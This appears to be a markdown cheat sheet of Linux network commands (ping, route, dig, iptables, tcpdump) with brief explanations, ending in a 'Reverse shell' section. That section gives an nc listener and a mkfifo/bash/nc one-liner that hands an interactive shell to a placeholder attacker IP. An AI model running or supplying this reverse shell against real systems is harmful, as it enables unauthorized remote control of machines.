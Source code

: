 ## Utilities commands for troubleshooting a network

ping <server>

route -n
  show default gateway and other routes without resolving the DNS

route
  show default gateway and other routes trying to resolve the DNS

ifconfig
  information about the network adapters

dig
  same as nslookup but it shows in a format that is much easier to parse when working with scripts

dig <server> MX
  show MX records. Used to direct e-mail messages for the right destination.

iptables -L
  show all the rules current configured

iptables -A INPUT -p tcp --dport 21 -j DROP
  appends a firewall rule for incoming tcp connections on port 21 (ftp) to be dropped

iptables -L INPUT --line-numbers
  show all INPUT rules current configured and display it line number.

iptables -D INPUT 1
  deletes INPUT rule with line number 1.

iptablas -D INPUT -p tcp --dport 21 -j DROP
  same as above but delete the rule by the rule it self.

tcpdump -i <interface> -n
  show all the traffic coming in and out the interface. Option -n don't do the reverse dns lookup.

### Reverse shell

nc -lnvp <port_number> 
  attacker will listen for connections on port number

mkfifo /tmp/<file_to_be_used_as_pipe>
  creates a file that will be used as a pipe/socket for enabling the attacked system to offer a shell

cat /tmp/<file_created_above> | /bin/bash -i 2>&1 | nc <attacker-ip> <port-number> > /tmp/<file-created-above>
  connects to the attacker machine e offers a shell for the attacker to control the attacked machine



